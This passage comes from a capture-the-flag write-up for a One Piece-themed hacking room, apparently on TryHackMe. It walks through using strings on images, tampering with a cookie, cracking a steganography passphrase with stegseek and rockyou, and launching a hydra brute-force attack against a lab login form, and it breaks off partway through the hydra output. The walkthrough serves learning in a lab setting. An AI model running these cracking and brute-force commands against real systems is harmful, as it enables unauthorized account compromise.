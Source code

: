 ![king kong gun](/thm/One%20Piece/king_kong_gun.jpg)

```strings
└─(14:44:36 on master ✭)──> strings king_kong_gun.jpg                                                                                ──(mar.,janv.16)─┘
JFIF
Doflamingo is /ko.jpg

```

Use `strings` again and find our next destination. it's `whole cake` if you wonder. We get input field and a button. I immediately fire burp suite and intercept the request. Funny how it's a `cookie` we have to tamper with. I had a terrible experience with those encoded texts (mostly rabbit holes...so many rabbit holes)

We get the 2nd poneglyph then focus on "random island" instead...Seems like `buggy the clown` is our friend now.

As checking the source code is very important here we check everything...The css, the javascript...Everything! We find our next destination in `brain_teaser.js`. It's `Onigashima` where we fight `Kaido of the beasts`. We have two options. A login form and an upload form. Also a hint about "bruteforce" or something (I don't like bruteforcing much)

I was stuck again but once again I got a little help about steganography on the kaido image

```bash
└─(15:16:50 on master ✭)──> stegseek -wl /usr/share/wordlists/rockyou.txt -sf kaido.jpeg                                             ──(mar.,janv.16)─┘
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "imabeast"       
[i] Original filename: "kaido_login.txt".
[i] Extracting to "kaido.jpeg.out".

```

## Exploitation

![kaido](/thm/One%20Piece/kaido.jpeg)

Cool. The username to use is known we need the password now...maybe...bruteforce?

```bash

└─(15:25:11 on master ✭)──> hydra -l K1ng_0f_th3_B3@sts -P "/usr/share/wordlists/rockyou.txt" 10.10.135.85 http-post-form "/0n1g4sh1m4.php:user=^USER^&password=^PASS^&submit_creds=Login:ERROR"
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-01-16 15:26:02
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.135.85:80/0n1g4sh1m4.php:user=^USER^&password=^PASS^&submit_creds=Login:ERROR
[STATUS] 32.00 tries/min, 32 tries in 00:01h, 14344374 to do in 7471:02h, 16 active
[STATUS] 32.00 tries/min, 96 tries in 00:03h, 14344336 to do in 7471:01h, 16 active

...

```
